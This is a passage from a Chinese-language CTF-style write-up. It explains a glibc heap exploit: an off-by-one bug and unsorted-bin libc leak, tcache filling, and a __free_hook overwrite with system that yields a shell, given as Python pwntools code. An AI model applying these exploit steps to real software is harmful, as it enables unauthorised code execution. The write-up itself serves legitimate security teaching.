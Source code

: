 ### leak_libc

除此之外我们还需要泄露 `libc地址/栈地址`，之后通过写 `got` 表劫持流程或者写 `__malloc_hook` 劫持流程等。

因为 `off-by-one` 漏洞的存在，我们可以利用 `unlink` 方法，因为此时堆区就被放入了`unsorted bins` 的双向链表中，这样就可以将 `main_arena.bins` 的地址写入堆区中。

但是我们本地调试环境是 `libc 2.28`，在 `2.26` 之后 `glibc` 引入了 `tcache` 机制，我们需要先释放 7 个 `chunk` 填充 `tcache` 垃圾箱，从第八个开始才会进入 `unsorted bins`。代码如下：

```python
        # todo: leak libc address via unsorted bin address
        for i in range(4):
            self.create(0x100, "F" * 0x100, 0x100, "G" * 0x100)  # 3,4,5,6
        for i in range(4):
            self.delete(i + 3)  # 3,4,5,6
        libcbase = self.read_from(library0 + 0x8c0) - 0x1bbca0
        print "leak libc base address: %s" % hex(libcbase)
```

### write `__free_hook`

在 `libc` 的 `free` 函数执行之前，会检查一个地址中是否存在函数。如果存在则传入目标地址并且执行它，这个地址叫做 `__free_hook`，我们可以将这个地址指向 `system` 函数，触发释放就可以得到 `shell`。

为了执行 `system("/bin/sh")`，我们需要执行以下的两步操作：

1. 将 `/bin/sh` 字符串写入需要释放的内存区域中；
2. 将 `__free_hook` 对应的地址指向 `system` 函数。

```python
        # todo:
        #   1. write "/bin/sh" to library[2] name
        #   2. replace `__free_hook` as `system`
        bin_sh_addr = libcbase + next(self.libc.search("/bin/sh"))
        free_hook_addr = libcbase + self.libc.symbols["__free_hook"]
        system_addr = libcbase + self.libc.symbols["system"]
        print "'/bin/sh' address: %x" % bin_sh_addr
        print "_free_hook address: %x" % free_hook_addr
        print "system address: %x" % system_addr
        self.create(0x20, "/bin/sh", 0x20, "/bin/sh")  # 7
        self.write_to(free_hook_addr, p64(system_addr))
```

### get_shell

最后就可以触发释放函数拿到主机 shell：

```python
        # todo: get shell
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", "7")
        self.p.interactive()
```

## 脚本
